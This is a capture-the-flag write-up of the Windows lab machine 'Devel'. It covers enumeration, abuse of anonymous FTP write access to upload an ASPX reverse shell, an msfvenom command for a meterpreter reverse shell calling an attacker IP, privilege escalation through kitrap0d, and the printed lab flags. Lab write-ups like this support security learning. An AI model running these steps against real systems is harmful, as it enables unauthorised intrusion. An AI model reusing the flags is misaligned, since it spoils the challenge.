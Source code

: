 ![](pics/logo.png)

# Devel (Windows)

## Enumeration

```
rustscan 10.129.79.250 -- -Pn -sC -sV -o port_scan

PORT   STATE SERVICE REASON  VERSION                                                                                                                                                       
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The machine has an open FTP port (which allows Anonymous login) as well as a webservice running on Port 80.

### Examine Port 21 - Anonymous FTP login

```
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```

We can follow the `aspnet_client` path until `"/aspnet_client/system_web/2_0_50727"`. However, there are no interesting files.
Let's see what's on the webserver.

### Examine Port 80 - Microsoft IIS (Internet Information Service)

![](pics/welcome.png)

Inspecting the open Port 80, we only see a website containig a welcome picture. This is already very suspicious, as we have seen such a welcome png on the ftp server. Maybe they are even the same. Let's check if the directory `aspnet_client` exists.

```
gobuster dir -u "http://10.129.79.250" -w /usr/share/wordlists/dirb/big.txt

/aspnet_client (Status: 301)
```

It does! So it seems like the FTP server contains all the files that are hosted on the webserver. Maybe we have write permissions to the directory, via the Anonymous FTP user. If so, we can upload a simple reverse shell script and access it via the browser.

## Exploitation

As Windows server mostly support `ASP.NET`, I decided to upload a ASPX reverse shell. Credits to `borjmz` (https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) for the aspx reverse shell code. 

With the FTP client I created a directory `test` in the root directory and uploaded the reverse shell ASPX file into it. Afterwards I accessed the file via the browser. 

![](pics/reverse_shell.png)

Now it's time for privilege escalation. This [github repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md) lists many options about how to exploit the windows environment.

However, none of them works. That's when I decided to switch to metasploit. Maybe it does offer us some ways.

(At this point my machine crashed and I had to reset it. Therefore for the rest of the writeup it also has a new IP address: 10.129.80.0 instead of 10.129.79.250)

First we have to create a meterpreter reverse shell. We can use msfvenom for that.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.50 LPORT=4444 -a x86 -f aspx > shell.aspx
```

Then we again upload this file via FTP.

Before accessing the file via the browser, we first have to set up our metasploit listener:

![](pics/metasploit.png)

Now run the listener and open the uploaded shell via the browser. You will receive a meterpreter session as result:

![](pics/meterpreter.png)

As we've already tested the user's privileges with the manual shell, we can skip this part and directly move to the privilege escalation part. We can use a metasploit module called `local_exploit_suggester`, to check which modules can be used to gain a system shell.

Therefore, first put the current meterpreter session into the background and execute following:

![](pics/privilege_escalation.png)

It provides us with many exploit suggestions that we can try:

![](pics/suggester.png)

Let's try them:

1) exploit/windows/local/bypassuac_eventvwr: Exploit aborted due to failure: no-access: Not in admins group, cannot escalate with this module
2) exploit/windows/local/ms10_015_kitrap0d: Works!
   ![](pics/system_shell.png)

   Information about the exploit can be found here: https://www.exploit-db.com/exploits/11199. Apparently it's a pretty famous exploit and also very techincal. So enjoy the read.

## Post Exploitation

User flag:

```
c:\Users\babis\Desktop>type user.txt.txt
type user.txt.txt
9ecdd6a3aedf24b41562fea70f4cb3e8
```

Root flag:

```
c:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
e621a0b5041708797c4fc4728bc72b4b
```